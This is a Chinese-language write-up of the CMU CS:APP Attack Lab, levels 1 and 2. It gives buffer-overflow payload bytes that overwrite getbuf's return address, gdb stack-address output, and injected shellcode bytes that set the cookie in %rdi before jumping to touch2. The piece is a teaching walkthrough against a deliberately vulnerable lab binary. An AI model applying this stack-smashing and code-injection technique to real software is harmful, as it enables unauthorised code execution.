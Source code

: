 lab之前先阅读了该lab的文档 非常关键  
http://csapp.cs.cmu.edu/3e/attacklab.pdf  
Both CTARGET and RTARGET read strings from standard input. They do so with the function getbuf  
defined below:  
```c
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```

正式开始之前先用命令 lscpu | grep -i byte 查看机器是大端还是小端 这会影响输入的顺序  
Byte Order:            Little Endian  
显示为小端机器 则地址顺序相比正常写法需要改变   
如地址0x123456 需要写为 56 34 12  
再将ctarget gtarget用objdump转换成汇编代码以便了解函数地址  

### ***CI level1***
汇编代码中 函数touch1 在地址0x4017c0  
且getbuf有 rsp-0x28 即40bytes  
于是在输入的第40字节后添加地址 4017c0 以替换栈中的ret值  
答案如下  
输入:  00 00 ... 00 c0 17 40  
位数:   0  1 ... 40 41 42 43  

### ***CI level2***
与上题不同 level2 需要编写一个函数将给定的cookie值带入指定的函数 
若直接在返回插入函数地址 加上栈随机化 很难找到正确的函数入口 此时需要利用栈指针直接转跳
利用栈指针 先找到栈指针位置
Starting program: ctarget -q
Cookie: 0x59b997fa
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:	  sub    $0x28,%rsp
   0x00000000004017ac <+4>:	  mov    %rsp,%rdi
   0x00000000004017af <+7>:	  callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
End of assembler dump.
(gdb) p/x $rsp
$1 = 0x5561dca0
(gdb) p/x 0x5561dca0-0x28
$2 = 0x5561dc78

获得%rsp位置此时还没运行该指令分配空间 需要减去0x24 得到运行后的栈地址0x5561dc78 同样需要转换成小端地址78 dc 61 55
运行得到的 Cookie: 0x59b997fa 
再查看ctarget的汇编代码 得知touch2的起始地址为 4017ec 即可开始写注入所需的函数
File\:phase.s
```assembly
pushq $0x4017ec
movq $0x59b997fa,%rdi
retq
```
使用gcc -c选项编译该文件
再利用objdump 反编译成机器码得到
0:	68 ec 17 40 00       	pushq  $0x4017ec
5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
c:	c3                   	retq   
  

